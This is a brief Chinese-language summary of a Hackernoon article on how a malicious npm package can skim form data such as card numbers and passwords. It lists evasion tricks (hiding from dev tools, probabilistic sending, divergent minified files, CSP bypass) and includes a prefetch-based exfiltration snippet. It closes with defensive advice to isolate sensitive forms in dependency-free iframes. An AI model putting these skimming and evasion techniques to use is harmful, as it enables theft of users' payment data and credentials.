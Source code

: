 > 原文地址：https://hackernoon.com/im-harvesting-credit-card-numbers-and-passwords-from-your-site-here-s-how-9a8cb347c5b5

作者讲述了一些能够达成的破解网络安全手段(有些已被认为是bug修复，例如2)，并给出建议

抓取form的字段，传送
1. 发布小功能npm，嵌入代码内
2. 打开dev工具时，不发送
3. 每次发射后，记录到cookie，不重复
4. 检测到，设定发射概率，减少次数
5. fetch -->gfudi 减少1位
6. xx.min.js和xx.js内容不同
7. 通过prefetch和检测内容安全策略，避开
    ```
    const linkEl = document.createElement('link');
    linkEl.rel = 'prefetch';
    linkEl.href = urlWithYourPreciousData;
    document.head.appendChild(linkEl);
    ```
建议：针对重要表单，完全重新写一个iframe（自己手写，无任何依赖）
